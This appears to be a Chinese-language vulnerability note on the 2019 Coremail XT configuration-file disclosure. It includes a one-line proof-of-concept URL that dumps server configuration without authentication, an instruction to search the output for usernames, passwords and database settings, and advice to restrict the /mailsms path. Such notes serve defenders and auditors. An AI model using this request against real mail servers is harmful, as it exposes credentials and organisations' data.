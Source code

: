 # Coremail配置文件信息泄漏

## 一、漏洞简介

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm

## 二、漏洞影响

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

## 三、复现过程

POC


```bash
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

输入Poc访问漏洞页面

发现信息泄露页面内搜索user，password，database等关键字

如下图

![](images/15889499342714.png)


## 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 `/mailsms` 路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。